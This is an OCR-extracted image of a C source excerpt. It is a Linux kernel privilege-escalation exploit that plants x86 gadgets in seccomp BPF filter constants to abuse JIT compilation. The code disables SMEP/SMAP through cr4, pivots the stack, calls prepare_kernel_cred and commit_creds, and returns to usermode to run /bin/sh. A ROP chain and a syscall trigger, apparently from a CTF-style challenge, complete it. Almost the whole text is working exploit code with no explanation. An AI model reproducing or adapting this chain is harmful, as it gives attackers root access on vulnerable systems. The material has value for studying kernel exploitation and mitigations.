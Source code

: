 ```c
    stack[j++] = commit_creds;
    // swapgs_restore_regs_and_return_to_usermode
    stack[j++] = swapgs_restore_regs_and_return_to_usermode + 0x16;
    stack[j++] = 0; // pop rax
    stack[j++] = 0; // pop rdi
    // recover usermode register
    stack[j++] = (unsigned long) getshell;
    stack[j++] = user_cs;
    stack[j++] = user_rflags;
    stack[j++] = user_sp;
    stack[j++] = user_ss;
    printf("[*] shell: %p\n", getshell);

    // step1: unset smep, smap bit in cr4 (20b and 21b)
    // cr4 &= ~( (0b11 << 20) - 1 )
    filter[i++] = SC(0x04e7200f); // mov rdi, cr4 ; add al, XX
    filter[i++] = SC(0x01ebd231); // xor edx, edx ; jmp .+3
    // edx = 1
    filter[i++] = SC(0x01ebc2ff); // inc edx; ; jmp .+3
    // edx <<= 22
    filter[i++] = SC(0x0414e2c1); // shl edx, 22 ; add al, XX
    // edx -= 1
    filter[i++] = SC(0x01ebcaff); // dec edx ; jmp .+3
    // edi &= edx
    filter[i++] = SC(0x01ebd721); // and edi, edx ; jmp .+3
    // cr4 = rdi
    filter[i++] = SC(0x04e7220f); // mov cr4, rdi ; add al, XX

    // step2: stack pivoting
    // esp = 0
    filter[i++] = SC(0x01ebe431); // xor esp, esp ; jmp .+3
    // esp = 1
    filter[i++] = SC(0x01ebc4ff); // inc esp ; jmp .+3
    // esp <<= 31
    filter[i++] = SC(0x0410e4c1); // shl esp, 16 ; add al, XX

    // step3: prepare_kernel_cred(0)
    filter[i++] = SC(0x01ebff31); // xor, edi, edi ; jmp .+3
    filter[i++] = SC(0x01eb9058); // pop rax ; nop ; jmp .+3
    filter[i++] = SC(0x01ebd0ff); // call rax ; jmp .+3

    // step4: commit_creds(output)
    filter[i++] = SC(0x04c78948); // mov rdi, rax ; add al, XX
    filter[i++] = SC(0x01eb9058); // pop rax ; nop ; jmp .+3
    filter[i++] = SC(0x01ebd0ff); // call rax ; jmp .+3

    // step5: finally return to usermode and run system("/bin/sh")
    filter[i++] = SC(0x04e0ff58); // pop rax ; jmp rax ; all al, XX

    // match the rules
    filter[i++] = RET;

    struct sock_fprog prog = {
        .len = i,
        .filter = filter,
    };

    if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) == -1)
        perror("[*] PR_SET_NO_NEW_PRIVS failed");
    if (prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog) == -1)
        perror("[*] SECCOMP_MODE_FILTER failed");

    syscall(1337, JIT);
```